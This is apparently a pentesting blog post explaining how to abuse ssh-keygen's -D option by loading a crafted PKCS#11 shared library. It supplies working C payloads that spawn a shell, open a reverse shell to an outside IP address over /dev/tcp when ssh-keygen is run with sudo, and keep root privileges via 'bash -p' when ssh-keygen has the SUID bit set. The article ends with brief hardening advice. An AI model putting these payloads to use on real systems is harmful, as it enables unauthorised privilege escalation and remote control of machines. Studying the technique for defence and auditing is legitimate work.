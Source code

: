 ```yaml
---
title: "Abusing ssh-keygen"
summary: "SSH-Keygen is a tool that allows you to create and manage SSH keys, this tool is present in most UNIX systems today as a tool to facilitate the management of SSH keys.<br>In this article we will explore some methods to abuse this tool with certain configurations as a method of persistence or privilege escalation on the system."
date: 2024-11-17
tag: 
    - Cybersecurity
    - Pentesting
    - SSH
    - Linux
    - SUID 
    - Persistence
lang: en
---
```


# Abusing ssh-keygen

SSH-Keygen is a tool that allows you to create and manage SSH keys, this tool is present in most UNIX systems today as a tool to facilitate the management of SSH keys.

In this article we will explore some methods to abuse this tool with certain configurations as a method of persistence or privilege escalation on the system.

<!-- more -->

In particular, we will abuse a specific functionality of this binary that allows the loading of public keys from a card reader library, this option is the **-D** parameter, its use is as follows: 

```bash
ssh-keygen -D ./lib.so
```

## How to generate the payload

Now that we've explained how to use this function, let's look in more detail at how to generate a loadable payload, for which we'll first need to obtain a version of pkcs11.h . This header file is where we define the data types needed for the function of our library that will call ssh-keygen when using the **-D** parameter. 

In our case, we will go to the Open Smart Card repository and download the version we need from the following URL:

[GitHub - PKCS11](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h){:target="_blank"}

With this file we will proceed to write a small program in C with the necessary structure to be executed by ssh-keygen, in our case this program will spawn a bash shell.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Once compiled we can load it as a library as indicated in the introduction. 

## Profit

### Case 1: Sudo SSH-Keygen

Let's take advantage of a scenario where our user has permissions to execute the ssh-keygen command as root.

```bash
Matching Defaults entries for pnavas on test:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/snap/bin,
    use_pty

User pnavas may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /usr/bin/ssh-keygen
```

In this case, instead of using a simple bash call, we will load a reverse shell.

```c
#include ‘pkcs11.h’
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = ‘/bin/bash’;
        char *args[] = {cmd, ‘-c’ , ‘bash -i >& /dev/tcp/192.168.10.30/9001 0>&1’, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror(‘fork’);
        return 1;
    }

    return CKR_OK;
}
```

As a result, when we load it, we will get a root connection in our listener, we could modify it to run a shell simply as in the example in the theory section 

### Case 2: SSH Keygen SUID

In this scenario we are going to exploit a slightly less common scenario where ssh-keygen has the SUID bit set, in this case to keep the SUID privileges we need to change the library code a bit so that the shell keeps the privileges

```c
#include ‘pkcs11.h’
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = ‘/bin/bash’;
        char *args[] = {cmd, ‘-p’, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror(‘fork’);
        return 1;
    }

    return CKR_OK;
}
```

Once compiled, we can run the command to load the library and get a shell with the necessary privileges.

## Final Thoughts

As demonstrated, ssh-keygen is a powerful tool that, when misconfigured or misused, can become a significant security risk. The scenarios presented in this article highlight the importance of properly configuring and restricting access to binaries with elevated privileges.

By understanding and proactively managing the capabilities and risks associated with common tools like ssh-keygen, administrators can ensure the integrity and security of their systems. 

!!! note
    Always adopt the principle of least privilege and conduct regular security audits to minimize attack surfaces.

---